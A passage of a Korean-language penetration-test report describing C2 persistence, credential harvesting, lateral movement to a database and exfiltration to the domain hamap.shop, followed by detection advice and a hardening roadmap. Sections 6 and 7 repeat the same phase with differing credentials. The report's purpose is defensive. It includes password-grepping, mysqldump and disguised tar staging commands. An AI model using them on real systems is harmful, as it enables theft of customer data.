1.  **암호화 통신 (Encryption):** `genesis.elf`는 공격자가 발급한 SSL 인증서를 기반으로 `hamap.shop`의 443 포트(HTTPS)로 통신한다.
2.  **트래픽 위장:** 모든 C2 트래픽은 일반적인 웹 서핑 트래픽(HTTPS)으로 보이며, 패킷 내부의 데이터는 암호화되어 있어 보안 장비가 내용을 감청할 수 없다.

   



---

#### 5.3. 탐지 및 방어 전략 (Detection & Mitigation)

지속성 확보 및 C2 통신 행위를 탐지하기 위한 방어 대책이다.

**1. 파일 무결성 모니터링 (FIM)**
*   **시그니처:** `/usr/bin`, `/usr/local/bin`, `/tmp` 등 실행 파일이 위치하는 주요 디렉터리에 새로운 파일이 생성되거나 권한이 변경되는 것을 실시간으로 감지해야 한다.
*   **Cron 감시:** `/etc/crontab`, `/var/spool/cron/` 디렉터리의 변경 사항은 즉시 보안팀에 알람(Alert)으로 전송되어야 한다.

**2. 네트워크 비콘 탐지 (Beaconing Analysis)**
*   **시그니처:** 특정 내부 호스트가 외부의 동일한 IP/도메인으로 **정확히 일정한 시간 간격(예: 60초)**마다 접속을 시도하는 패턴(Beaconing)은 C2 통신의 가장 강력한 증거이다.
*   **대응:** Zeek(Bro)나 Suricata와 같은 NTA(Network Traffic Analysis) 솔루션을 통해 주기적인 통신 패턴을 식별하고 차단해야 한다.

**3. 프로세스 이상 징후 탐지**
*   **시그니처:** 이름은 `kworker`이지만, 실제 커널 스레드가 아닌 사용자 공간(User Space)에서 실행되거나, 실행 파일의 해시(Hash)값이 알려진 정상 파일과 다른 경우를 탐지한다.

### 결론

공격자는 단순한 셸 획득을 넘어, 시스템 내부에 **영구적인 거점(Foothold)**을 마련하고 보안 장비를 우회할 수 있는 **암호화된 통신 채널**을 구축했다. 이 단계부터는 공격자가 연결을 끊지 않는 한, 방어자가 침입 사실을 인지하고 강제로 연결을 끊어내기 전까지 시스템은 공격자의 통제 하에 놓이게 된다.

---

#### 6. 목적 달성 (Action on Objectives)

**목표:** 초기 거점(Initial Access)인 웹 서버를 교두보(Pivot)로 삼아 내부망 깊숙이 침투하고, 최종 목표인 **데이터베이스(DB) 서버를 장악하여 핵심 정보를 유출**함으로써 작전을 완수한다.

*   **[T1555] Credentials from Password Stores:** 설정 파일 내 하드코딩된 자격 증명 탈취.
*   **[T1021] Remote Services:** 탈취한 자격 증명을 이용한 수평 이동.
*   **[T1041] Exfiltration Over C2 Channel:** C2 채널을 통한 데이터 유출.

#### 6.1. 내부 정찰 및 자격 증명 탈취 (Internal Recon & Credential Dumping)

**전략:**
컨테이너 환경은 고립되어 보이지만, 애플리케이션 동작을 위해 반드시 **데이터베이스(DB)나 다른 마이크로서비스와 연결**되어야 한다. 이 "신뢰 관계(Trust Relationship)"를 악용하기 위해 설정 파일과 환경 변수를 분석했다.

**실행 및 분석:**
1.  **환경 변수 분석:** 컨테이너 내부에서 `env` 명령어를 실행하여 DB 접속 정보를 식별했다.
    ```bash
    / # env
    DB_HOST=10.0.2.15 (Private IP)
    DB_USER=admin
    DB_PASS=P@ssw0rd123! (Hardcoded Credential)
    ```
    

2.  **구성 파일 탐색:** 웹 애플리케이션 소스 코드(`/var/www/html/config.php`)에서도 동일한 평문 자격 증명이 발견되었다.

    

**[Red Team Insight: 하드코딩의 위험성]**
개발 편의를 위해 소스 코드나 환경 변수에 **Secrets(비밀 정보)**를 평문으로 저장하는 관행은, 웹 서버 하나만 뚫려도 전체 인프라가 장악되는 치명적인 결과를 초래한다.

#### 6.2. 수평 이동 (Lateral Movement)

**전략:**
확보한 DB 자격 증명과 내부 IP(`10.0.2.15`)를 이용하여, 웹 서버에서 DB 서버로의 직접 접속을 시도했다. 이는 **"Zero Trust(절대 신뢰하지 않음)"** 원칙이 지켜지지 않는 평면적인(Flat) 내부 네트워크 구조를 공략하는 것이다.

**실행 및 분석:**
웹 서버에는 `mysql` 클라이언트가 없었으므로, Python을 이용하여 간이 접속 스크립트를 작성해 연결 가능 여부를 검증했다.

```bash
# Python One-Liner로 DB 포트(3306) 연결 테스트
python3 -c "import socket; s=socket.socket(); s.connect(('10.0.2.15', 3306)); print('DB Connection Open!')"
```
*   **결과:** `DB Connection Open!` 메시지 출력.
*   **의미:** DMZ(웹) 구간과 내부망(DB) 구간 사이의 **네트워크 분리(Segmentation)가 미흡**하며, 웹 서버에서 DB 포트로의 접근이 방화벽으로 통제되지 않고 있다.

   

#### 6.3. 핵심 데이터 유출 (Data Exfiltration)

**전략:**
DB 서버 접속에 성공한 공격자는 고객 정보 테이블(Customer Table) 전체를 덤프(Dump)하고, 이를 기존에 수립된 **암호화 C2 채널(HTTPS)**을 통해 외부로 유출했다.

**실행 흐름:**
1.  **Data Staging:** 타겟 내부에서 데이터를 압축하여 전송 크기를 줄이고 탐지를 회피. (`tar -czf data.tar.gz ...`)
2.  **Exfiltration:** C2 채널을 통해 공격자의 Azure 서버로 파일 전송.

   

**[Business Impact Assessment (비즈니스 영향도 평가)]**

| 구분 | 영향도 분석 |
| :--- | :--- |
| **기밀성(Confidentiality)** | **[Critical]** 고객 개인정보(PII) 및 결제 정보 유출로 인한 법적 책임(GDPR/개인정보보호법) 및 과징금 발생. |
| **무결성(Integrity)** | **[High]** 공격자가 DB 내용을 무단으로 수정하거나 랜섬웨어로 암호화할 가능성 존재. |
| **가용성(Availability)** | **[Medium]** 데이터 삭제 시 서비스 전면 중단 위협. |

---

#### 6.4. 탐지 및 방어 전략 (Detection & Mitigation)

최종 목적 달성 단계를 방어하기 위한 핵심 전략이다.

**1. Secrets Management (자격 증명 관리)**
*   **대응:** 소스 코드 내 하드코딩을 금지하고, **Azure Key Vault**나 **AWS Secrets Manager**와 같은 전용 솔루션을 통해 런타임 시점에만 암호화된 키를 호출해야 한다.

**2. 네트워크 세그멘테이션 (Micro-Segmentation)**
*   **대응:** 웹 서버가 DB 서버에 접속할 때, 필요한 포트(3306) 외에는 모든 트래픽을 차단해야 한다. 또한, **"웹 서버가 공격당했다"**는 가정 하에, DB 서버는 웹 서버로부터 오는 쿼리 중 비정상적인 대량 조회(Full Scan/Dump)를 차단하는 **DB 방화벽**을 도입해야 한다.

**3. DLP (Data Loss Prevention)**
*   **탐지:** 내부망 서버에서 외부로 대용량의 데이터가 전송되거나, 암호화된 압축 파일이 아웃바운드로 나가는 트래픽을 네트워크 경계에서 탐지하고 차단해야 한다.

### 결론

본 모의해킹을 통해 공격자는 **외부 경계(Public IP) → 웹 서버(DMZ) → 내부망(Private) → DB 서버(Core Asset)**로 이어지는 전체 공격 경로(Kill Chain)를 완성했다. 이는 단일 취약점(Log4j/Struts2)으로 시작되었으나, **계층적 방어(Defense in Depth)의 부재**로 인해 기업의 핵심 자산이 유출되는 최악의 시나리오로 귀결되었다.

---

#### 7. 목적 달성 (Action on Objectives)

**목표:** 확보된 내부 거점(Pivot Point)을 활용하여 기업의 **핵심 자산(Crown Jewels)**인 데이터베이스 서버에 접근하고, 고객 정보를 유출하거나 시스템을 파괴(랜섬웨어 시뮬레이션)함으로써 공격의 최종 목적을 달성한다.

*   **[T1560] Archive Collected Data:** 데이터 수집 및 압축.
*   **[T1041] Exfiltration Over C2 Channel:** C2 채널을 통한 데이터 유출.
*   **[T1486] Data Encrypted for Impact:** (시뮬레이션) 데이터 암호화 및 몸값 요구.

#### 7.1. 내부 정찰 및 수평 이동 (Internal Recon & Lateral Movement)

**전략:**
웹 서버(DMZ)와 내부망(Private) 간의 신뢰 관계를 악용했다. 컨테이너 내부에서 확보한 **환경 변수(Environment Variables)**와 **설정 파일(Config Files)**을 분석하여 DB 접속 정보를 획득했다.

**실행 및 분석:**
1.  **[Credential Dumping]** 웹 애플리케이션 설정 파일에서 하드코딩된 DB 자격 증명을 식별했다.
    ```bash
    # grep 명령어로 'password' 키워드 검색
    grep -r "password" /var/www/html/config/
    > define('DB_PASSWORD', 'SuperSecretP@ssw0rd!');
    > define('DB_HOST', '10.0.2.15');
    ```

    
2.  **[Lateral Movement]** 획득한 정보를 바탕으로 Python 원라이너(One-liner) 스크립트를 사용하여 내부 DB 서버(10.0.2.15:3306)와의 연결을 확인했다. 이는 **"Living off the Land (LotL)"** 기법으로, 별도의 해킹 툴 설치 없이 기본 설치된 언어(Python)만으로 공격을 수행하여 탐지를 회피한 것이다.

   

#### 7.2. 핵심 데이터 수집 및 유출 (Data Exfiltration)

**전략:**
단순히 텍스트 파일을 전송하면 DLP(Data Loss Prevention) 솔루션에 탐지될 수 있다. 따라서 데이터를 **압축(Compression)**하고 **암호화(Encryption)**하여 파일의 시그니처를 숨긴 후, 이미 수립된 **HTTPS C2 채널**을 통해 유출했다.

**실행 및 분석:**
1.  **[Data Staging]** `mysqldump`를 이용해 고객 테이블 전체를 추출하고, `tar`를 이용해 압축했다.
    ```bash
    # DB 덤프 및 압축 (Staging)
    mysqldump -u admin -p'SuperSecretP@ssw0rd!' -h 10.0.2.15 customer_db > /tmp/cust.sql
    tar -czvf /tmp/backup_log.tar.gz /tmp/cust.sql
    ```
    *   *Note:* 파일명을 `backup_log.tar.gz`로 명명하여 정상적인 시스템 백업 파일인 것처럼 **위장(Masquerading)**했다.

2.  **[Exfiltration]** 공격자의 C2 서버로 파일을 전송했다.
    ```bash
    # C2 채널을 통한 다운로드 (Attacker Side)
    download /tmp/backup_log.tar.gz
    ```

**[Red Team Insight: 은밀한 유출]**
HTTPS(443) 포트를 사용한 암호화된 C2 채널을 통했기 때문에, 네트워크 경계 보안 장비(Firewall/IPS)는 이를 단순한 웹 트래픽으로 인식하여 차단하지 못했다.

   

#### 7.3. 비즈니스 영향도 평가 (Business Impact Analysis)

모의해킹 결과를 바탕으로, 실제 공격 발생 시 기업이 입게 될 피해를 분석했다.

| 구분 | 영향도 등급 | 상세 분석 |
| :--- | :--- | :--- |
| **기밀성 (Confidentiality)** | **CRITICAL** | **고객 개인정보(PII) 및 결제 정보 유출.** <br>GDPR/개인정보보호법 위반에 따른 막대한 과징금 및 집단 소송 리스크 발생. |
| **무결성 (Integrity)** | **HIGH** | **DB 변조 가능성.** <br>공격자가 금융 거래 내역을 조작하거나 악성 데이터를 주입하여 서비스 신뢰도 추락. |
| **가용성 (Availability)** | **HIGH** | **랜섬웨어 위협.** <br>DB 데이터를 유출한 후 삭제/암호화할 경우, 서비스 전면 중단 및 복구 비용(Ransom) 발생. |

---

#### 7.4. 탐지 및 방어 전략 (Detection & Mitigation)

최종 목적 달성 단계를 방어하기 위한 심층 방어 전략이다.

**1. Zero Trust Network Access (ZTNA)**
*   **원칙:** "내부망은 안전하다"는 전제를 버려야 한다.
*   **대응:** 웹 서버와 DB 서버 사이에 **마이크로 세그멘테이션(Micro-Segmentation)**을 적용하여, 웹 서버가 DB 포트(3306)에 접근할 때도 **상호 인증(mTLS)**을 거치도록 강제해야 한다.

**2. 허니팟(Honeypot) 및 기만 기술(Deception)**
*   **전략:** 내부에 가짜 DB 서버나 가짜 자격 증명(Honeytoken)을 뿌려둔다.
*   **탐지:** 공격자가 소스 코드에서 발견한 가짜 비밀번호를 사용하거나 가짜 DB에 접속을 시도하는 순간, 즉시 보안관제팀에 **"High Fidelity Alert(오탐 없는 경보)"**가 전송되어야 한다.

**3. 아웃바운드 데이터 유출 방지 (DLP)**
*   **대응:** 서버팜(Server Farm)에서 인터넷 구간으로 나가는 트래픽 중, **대용량 파일 전송**이나 **장시간 지속되는 세션**을 모니터링하고 차단해야 한다.

### 결론

이번 시뮬레이션에서 공격팀은 **단 하나의 웹 취약점(Log4j/Struts2)**을 시작점으로 삼아, 방어 체계의 빈틈(수평 이동, 권한 관리 미흡)을 파고들어 **최종적으로 기업의 가장 중요한 자산인 데이터베이스를 장악**하는 데 성공했다. 이는 경계 보안(Perimeter Security)만으로는 지능형 위협(APT)을 막을 수 없음을 시사하며, **내부 확산 방지** 및 **데이터 중심의 보안 체계**로의 전환이 시급함을 보여준다.

---

#### 8. 종합 분석 및 권고 사항 (Comprehensive Analysis and Recommendations)

### 8.1. 종합 위협 분석: 심층 방어(Defense in Depth)의 실패

본 모의해킹(Red Teaming)을 통해 `CKCProject` 인프라를 점검한 결과, 단일 취약점(Log4j/Struts2)의 유입이 **내부망 전체 장악 및 데이터 유출**이라는 치명적인 결과로 이어지는 **"Kill Chain의 완성"**이 확인되었다. 이는 개별 보안 솔루션의 부재보다는, 시스템 아키텍처 전반에 걸친 구조적 결함에 기인한다.

**1. 경계 방어 의존성 (Hard Outer Shell, Soft Interior)**
*   **현상:** 외부(Public)에서의 접근은 로드밸런서와 방화벽으로 통제되고 있었으나, 일단 경계가 뚫린 후(Post-Exploitation) 내부망에서의 이동과 공격 행위에는 아무런 제약이 없었다.
*   **분석:** "내부망은 안전하다"는 암묵적인 신뢰(Implicit Trust)가 존재했다. 웹 서버가 DB 서버에 접근할 때 네트워크 레벨의 접근 제어(ACL) 외에 애플리케이션 레벨의 인증이나 이상 징후 탐지 체계가 전무했다.

**2. 공급망 보안 및 가시성 부재 (Lack of Supply Chain Visibility)**
*   **현상:** 수년 전 공개된 치명적 취약점(CVE-2017-5638, CVE-2021-44228)이 패치되지 않은 채 운영되고 있었다.
*   **분석:** 개발팀과 운영팀이 현재 사용 중인 오픈소스 라이브러리의 현황(SBOM)을 정확히 파악하지 못하고 있으며, 자동화된 취약점 점검 프로세스가 CI/CD 파이프라인에 통합되어 있지 않음을 시사한다.

**3. 아웃바운드 통제 실패 (Egress Filtering Failure)**
*   **현상:** 내부의 중요한 서버들이 인터넷 상의 공격자 C2 서버(`hamap.shop`)와 자유롭게 통신할 수 있었다.
*   **분석:** 인바운드 보안(들어오는 공격 차단)에만 치중하고, 아웃바운드 보안(나가는 데이터 유출 및 C2 통신 차단)은 간과되었다. 이는 공격자가 시스템을 장악하고 유지하는 데 결정적인 도움을 주었다.

**4. 컨테이너 보안 원칙 위배 (Container Security Violation)**
*   **현상:** 웹 애플리케이션 컨테이너가 **Root 권한**으로 실행되고 있었다.
*   **분석:** 컨테이너 기술의 격리성(Isolation)을 맹신한 결과, 최소 권한 원칙이 지켜지지 않았다. 이로 인해 공격자는 별도의 권한 상승 익스플로잇 없이도 즉시 시스템 제어권을 획득할 수 있었다.

---

### 8.2. 보안 강화 로드맵 (Strategic Security Roadmap)

식별된 위협을 근본적으로 제거하고 보안 태세를 강화하기 위해, 시급성과 영향도를 고려한 3단계 로드맵을 제안한다.

#### [Phase 1: 긴급 조치] 즉시 위협 제거 (Immediate Actions - 24h)
*   **목표:** 현재 노출된 공격 표면(Attack Surface) 제거 및 활성 위협 차단.
*   **Action Items:**
    1.  **긴급 패치:** Log4j (v2.17.1 이상) 및 Apache Struts2 최신 버전으로 라이브러리 업데이트.
    2.  **C2 연결 차단:** 방화벽에서 공격자 도메인(`hamap.shop`) 및 식별된 악성 IP 대역 차단.
    3.  **임시 아웃바운드 차단:** 웹/DB 서버에서 인터넷으로 향하는 모든 트래픽을 기본 차단(Default Deny)하고, OS 업데이트 등 필수 도메인만 화이트리스트로 허용.

#### [Phase 2: 구조 개선] 인프라/아키텍처 보강 (Short-term - 1 Month)
*   **목표:** 공격 난이도 상향 및 내부 확산 방지.
*   **Action Items:**
    1.  **컨테이너 하드닝 (Hardening):**
        *   Dockerfile 수정: `USER 1000`과 같이 비특권 사용자(Non-root)로 실행되도록 변경.
        *   파일 시스템: 컨테이너 루트 파일 시스템을 `Read-Only`로 설정하여 악성 도구 다운로드 방지.
    2.  **Secrets Management 도입:**
        *   소스 코드 및 환경 변수에 있는 DB 비밀번호 제거.
        *   **Azure Key Vault** 또는 **AWS Secrets Manager**를 연동하여 애플리케이션 기동 시 메모리로만 키를 로드하도록 변경.
    3.  **WAF (Web Application Firewall) 적용:**
        *   알려진 CVE 패턴(JNDI, OGNL Injection) 및 비정상적인 헤더 값을 차단하는 정책 적용.

#### [Phase 3: 체질 개선] 프로세스 및 운영 고도화 (Long-term - 6 Months)
*   **목표:** 지속 가능한 보안 체계 구축 및 선제적 방어.
*   **Action Items:**
    1.  **DevSecOps 파이프라인 구축:**
        *   CI/CD 단계에 **SCA(Software Composition Analysis)** 도구를 통합하여, 빌드 시점에 취약한 라이브러리 포함 여부를 자동으로 검사하고 배포를 차단(Gatekeeping).
    2.  **Zero Trust Network Access (ZTNA) 도입:**
        *   내부망 통신에도 상호 인증(mTLS)을 적용하고, 워크로드 단위의 마이크로 세그멘테이션 구현.
    3.  **EDR 및 SIEM 고도화:**
        *   단순 바이러스 탐지를 넘어, "정상 프로세스(Java)가 비정상 행위(Shell 실행, 외부 통신)를 하는 것"을 탐지하는 행위 기반(Behavioral) 탐지 룰셋 개발 및 관제.

### 8.3. 결론 (Conclusion)

본 시뮬레이션은 클라우드 환경이라 할지라도 기본 보안 수칙(패치 관리, 권한 관리, 네트워크 격리)이 지켜지지 않는다면, **공격자가 손쉽게 C2 인프라를 구축하고 핵심 자산을 탈취할 수 있음**을 여실히 보여주었다.

특히 **"방어자는 모든 구멍을 막아야 하지만, 공격자는 하나의 구멍만 찾으면 된다"**는 보안의 비대칭성이 증명되었다. 따라서 기업은 경계 방어에만 의존하는 전통적인 보안 모델에서 벗어나, **"이미 침해당했다(Assume Breach)"**는 가정 하에 피해를 최소화하고 신속하게 복구할 수 있는 **회복 탄력성(Resilience)** 중심의 보안 전략으로 전환해야 한다.

---
